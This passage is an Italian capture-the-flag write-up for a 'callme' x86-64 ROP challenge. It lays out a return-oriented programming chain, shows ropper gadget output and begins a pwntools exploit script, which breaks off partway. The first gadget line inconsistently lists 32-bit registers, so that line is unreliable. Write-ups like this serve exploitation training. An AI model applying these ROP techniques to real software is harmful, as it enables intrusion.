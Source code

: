 > Sempre utilizzando la *plt*.

I parametri da passare alle funzioni sono i seguenti:

- **param1**: 0xdeadbeefdeadbeef
- **param2**: 0xcafebabecafebabe
- **param3**: 0xd00df00dd00df00d

Sapendo che la *convenzione di chiamata a funzioni in x86-64* prevede il passaggio dei parametri alla funzione tramite i registri **RDI**, **RSI** ed **RDX**, si definisce la seguente *rop chain*:

- **padding** di dimensione 0x20 + 0x4 bytes.
---
- **pop_params_ret**: pop esi; pop edi; pop ebp; ret         <--- saved rip di pwn_me`
- **param1**, **param2**, **param3**
- **callme_one**
---
- **pop_params_ret**: pop rdi; pop rsi; pop rdx; ret;         <--- saved rip di callme_one`
- **param1**, **param2**, **param3**
- **callme_two**
---
- **pop_params_ret**: pop rdi; pop rsi; pop rdx; ret;         <--- saved rip di callme_two`
- **param1**, **param2**, **param3**
- **callme_three**
---
- **pop_rdi_ret**: pop rdi; ret				      <--- saved rip di callme_three
- **param**: 0
- **exit** 

Si usa **ropper** per individaure i *gadget* utili per costruire la catena:

```bash
$ ropper --file=callme --search pop
...
0x000000000040093c: pop rdi; pop rsi; pop rdx; ret; 
0x00000000004009a3: pop rdi; ret; 
...
```

### Capture The Flag - x86-64

Di seguito il file per l'*exploit*:

```python
from pwn import *

exe = './callme'
elf = context.binary = ELF(exe, checksec=False)
context.log_level = 'debug'

gdbinit="""
init-pwndbg
# @pwnme: ret
break* 0x004008f1
# @callme_one
break* 0x00400720
# @callme_two
break* 0x00400740
# @callme_three
break* 0x004006f0
continue
"""

### Crafting the ROP chain ###

param1=0xdeadbeefdeadbeef
param2=0xcafebabecafebabe
```